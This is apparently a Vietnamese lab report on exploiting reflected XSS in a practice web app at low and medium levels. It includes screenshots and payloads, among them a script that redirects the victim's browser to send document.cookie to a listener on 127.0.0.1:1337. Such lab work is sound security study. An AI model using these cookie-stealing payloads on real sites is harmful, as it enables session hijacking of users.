 # BÁO CÁO QUÁ TRÌNH KHAI THÁC XSS REFLECTED (LOW, MEDIUM, HIGH)

---

## 1. XSS REFLECTED (LOW)

Đầu tiên, giao diện xuất hiện một *text field* cho phép người dùng nhập tên và gửi:

<img width="1439" height="621" alt="image" src="https://github.com/user-attachments/assets/8b414797-a981-4648-a0ed-f54914d5df40" />

Sau khi nhập tên và submit, dữ liệu tên đã nhập trước đó sẽ được hiển thị lại (reflect) ngay trên giao diện là: Hello + <dữ liệu nhập> → chứa lỗ hổng XSS Reflected.

Kiểm tra source PHP ta thấy không hề xử lý (sanitize/encode) dữ liệu đầu vào trước khi xuất ra trang HTML:

<img width="1442" height="653" alt="image" src="https://github.com/user-attachments/assets/cd3344a1-9951-4793-8275-2989f174c6e5" />

Nhập dữ liệu đoạn mã JavaScript lấy cookie hiện tại như bên dưới, sau đó nhấn submit:

```bash
<script>alert(document.cookie)</script>
```

<img width="1444" height="611" alt="image" src="https://github.com/user-attachments/assets/e08e13e1-f82f-4d5a-87f9-6af6cf519048" />

<img width="1438" height="603" alt="image" src="https://github.com/user-attachments/assets/44137da0-2a67-4885-ac20-7cc6c9f590a2" />

Ta có thể thấy đoạn mã JS đã được chèn vào trong cấu trúc:

<img width="1440" height="607" alt="image" src="https://github.com/user-attachments/assets/1b151a82-75a0-4e0d-bd9b-81f235a179af" />

Nhập mã Javascript sử dụng *window.location* để gửi cookie hiện tại về cho máy chủ HTTP local trên port 1337:

```bash
<script>window.location=’http://127.0.0.1:1337/?cookie=’ + document.cookie</script>
```

<img width="1443" height="600" alt="image" src="https://github.com/user-attachments/assets/d60e9a42-cc36-40d5-895f-a8a6b190e03f" />

---

## 2. XSS REFLECTED  (MEDIUM)

Thực hiện nhập dữ liệu đầu vào là đoạn mã JS: 

```bash
<script>alert(document.cookie)</script
```

<img width="1442" height="636" alt="image" src="https://github.com/user-attachments/assets/f775d184-56cf-455b-90f5-a069ac82ecf0" />
